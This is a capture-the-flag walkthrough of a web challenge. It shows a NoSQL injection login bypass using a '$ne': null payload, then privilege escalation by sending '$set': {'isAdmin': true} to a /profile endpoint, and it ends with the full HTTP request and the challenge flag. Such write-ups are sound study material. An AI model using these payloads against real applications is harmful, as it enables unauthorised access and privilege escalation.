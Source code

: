 
Only admin can see the flag and our admin is cool.

Deploy instance and will be greeted with a login page

![[Pasted image 20240811024510.png]]

Inspecting the page
![[Pasted image 20240811024532.png]]

We can find a Username: `cool_hacker`

Fire up the burpsuite and turn on the intercept and turn on the foxyproxy

use default credentials or anything of your wish , I went `dkvv`:`dkvv`

intercept the login request


![[Pasted image 20240811024822.png]]
Forward it to the repeater

![[Pasted image 20240811024910.png]]

this was the response for the sent request
use anytype of no sql injection payload , I went with `{"username": {"$ne": null}, "password": {"$ne": null}}`

you can refer following [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) for more payloads

I got the following response which proves no sql vulnerability

![[Pasted image 20240811025302.png]]

Now lets perform vertical privilege escalation to gain superior access

We will try to upload an unauthorized credentials of ours and store it in the database

Now we need to find endpoint where the data is stored , basically it will be stored in `profile`

So change the header request from `POST /login` to `POST /Profile`  and enter  the following parameters as payload.

Note: you can keep password of your wish but the username and UserID must renmain same as it is in response.

``` bas

{"username":"cool_hacker",

 "password": "dkvv_hacker",

 "UserID": "12345",

 "$set": {"isAdmin": true}
}
```

![[Pasted image 20240811030043.png]]

Once you send this response , you must receive response saying `profile is successfully updated`
![[Pasted image 20240811030404.png]]

If you got any errors retrace your request for any syntax errors or mistakes

now you need to send a `POST/profile` request to get into the site



```bash

POST /profile HTTP/1.1
Host: kicyber2024-7b822ce55aed-web-0.chals.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://kicyber2024-7b822ce55aed-web-0.chals.io/
Content-Type: application/json
Content-Length: 97
Origin: https://kicyber2024-7b822ce55aed-web-0.chals.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"cool_hacker",
 "password": "dkvv_hacker",
 "UserID": "12345",
 "isAdmin": true
}

```

you will get following response

![[Pasted image 20240811030823.png]]

Append the following `/0sdas0dsad41dasdsadsadas0d1sadas.txt` to the initial URL to get the flag

![[Pasted image 20240811030946.png]]

The flag is

```Bash
KPMG_CTF{CsBTmilba0FTUzQBv6VAQ-S6kOWWeAvIeccOj9LEXkF74Wotw8z6V2p9hPFJsyVA36argqi5I-Z5ISCcX2UzqEQtgrrRWhDfxikC9HQ}
```